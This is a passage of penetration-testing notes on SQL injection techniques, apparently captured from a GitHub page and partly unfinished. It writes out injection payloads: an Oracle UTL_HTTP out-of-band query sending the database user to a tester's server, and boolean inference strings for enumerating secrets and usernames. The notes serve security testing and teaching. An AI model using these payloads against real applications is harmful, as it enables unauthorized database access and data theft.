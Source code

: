 > / / / To Finish

###### Out of Band SQL injections

> / / / To Finish

The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

- Using HTTP
  - Oracle : <http://www.victom.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT> user FROM DUAL)--
  - MySQL: Not found
  
###### Error-Based SQL injections

During an **Error-Based SQL injection** attack, the penetration tester tries to force the DMBS to output an **error message** and then uses that information to perform data exfiltration.
To exploit an error-based injection, we need to use advanced DBMS features.

- **unrecognized token**:SQLite

###### Blind SQL injection

A web application vulnerable to **blind SQL injection** does not reflect the results of the injection on the output. In this case the penetration tester must find an **inference** method to exploit the vulnerability.

1) Content-based

Content-based SQL Injection or boolean-based SQL Injection is an inferential SQL Injection technique that relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

You may need to use the following parameter in SQLmap
--string

Here below is an example of secret enumeration

```sql
AND CASE WHEN(
  (SELECT secret FROM users LIMIT 0,1) LIKE 'a%') THEN 1
  ELSE 0 END AND
```

Here are some functions common among most databases leverage a boolean-based SQL-Injection:

- SUBSTRING (text, start, length): returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0.
  > $Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
- LENGTH (text): it gives back the number of characters in the input text.
  > $Id=1' AND LENGTH(username)=N AND '1' = '1

2) Time-based

This type of blind SQL injection relies on the database pausing for a specified amount of time, then returning the results, indicating successful SQL query executing.
